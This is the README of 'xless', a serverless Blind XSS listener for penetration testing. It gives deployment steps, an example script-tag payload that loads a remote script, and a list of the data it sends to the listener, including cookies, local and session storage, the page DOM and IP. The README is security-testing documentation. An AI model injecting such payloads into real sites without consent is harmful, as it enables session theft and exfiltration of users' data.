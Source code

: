 <h1 align="center">
  <br>
  <a href="https://github.com/mazen160/xless"><img src="https://user-images.githubusercontent.com/29874489/58731472-4f6c8080-83de-11e9-8206-992f4d777fdc.png" alt="Xless"></a>
  <br>
  xless
  <br>
</h1>

<h4 align="center">The Serverless Blind XSS App</h4>

## :information_source: About The Project
Xless is a serverless Blind XSS (bXSS) application that can be used to identify Blind XSS vulnerabilities using your own deployed version of the application.  
There is no need to run a full deployment process; just setup a zeit.co account and run `bash deploy.sh`.
That's it. You now have a fully-running Blind XSS listener that uses Slack to notify you for callbacks.

## :warning: Requirements
* zeit.co account: Zeit provides free plan for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.


## :rocket: Deployment
1. Run `bash deploy.sh`

```shell
$ bash deploy.sh

> Deploying ~/xless under X
> https://xless.now.sh [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## Example Payload

```html
<script src="https://xless.now.sh"></script>
```


## Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


# Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address


# Out-of-Band Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

### Demo

```bash
$ curl https://xless.now.sh/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://xless.now.sh/88bf0ecd
```


# Example Blind XSS payloads

You can view a number of handy XSS payloads for your Xless app at `/examples`
* URL: `https://xless.now.sh/examples`
Once you deploy your app, you can find the examples there.


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. Enabling sharing of page screenshot - Check `test.payload.js`.
2. _Your idea of a new feature_?


## Acknowledgement

* Matthew Bryant (https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* Rami Ahmed (https://twitter.com/rami_ahmad) for the "xless" name idea.
* Zeit.co for operating a great serverless platform.


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
